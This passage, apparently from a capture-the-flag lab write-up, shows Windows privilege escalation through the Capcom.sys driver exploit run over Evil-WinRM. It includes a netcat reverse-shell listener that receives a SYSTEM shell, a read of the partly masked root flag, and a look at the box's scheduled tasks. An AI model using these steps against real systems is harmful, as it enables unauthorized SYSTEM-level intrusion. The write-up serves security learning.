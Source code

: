 
If it fails right away at `CreateFile`, this means the driver is not loaded:

    
    
    *Evil-WinRM* PS C:\programdata> .\ExploitCapcom.exe
    [*] Capcom.sys exploit
    [-] CreateFile failed    
    

It is trying to open a handle to the IOCTL device the driver exposes, and
failing.

Assuming it does work, I’ll get a shell on my listener:

    
    
    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.193.
    Ncat: Connection from 10.10.10.193:49827.
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    C:\programdata>whoami
    nt authority\system
    

From here I can grab `root.txt`:

    
    
    C:\Users\Administrator\Desktop>type root.txt
    04805bdc************************
    

## Beyond Root - Automation

I took a look at the automation on the box by looking at the scheduled tasks:

    
    
    PS C:\programdata> get-scheduledtask
    get-scheduledtask
    
    TaskPath                                       TaskName                                                      
    --------                                       --------                         
    \                                              Revert Password and Expiry      
    \                                              Revert2                          
    \Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.30319  
    \Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.3031...
    \Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.3031...
    \Microsoft\Windows\.NET Framework\             .NET Framework NGEN v4.0.3031...
    ...[snip]...
    

The top two seem interesting.

The first one shows the PowerShell commands for the password resets for three
users (I must have missed one):
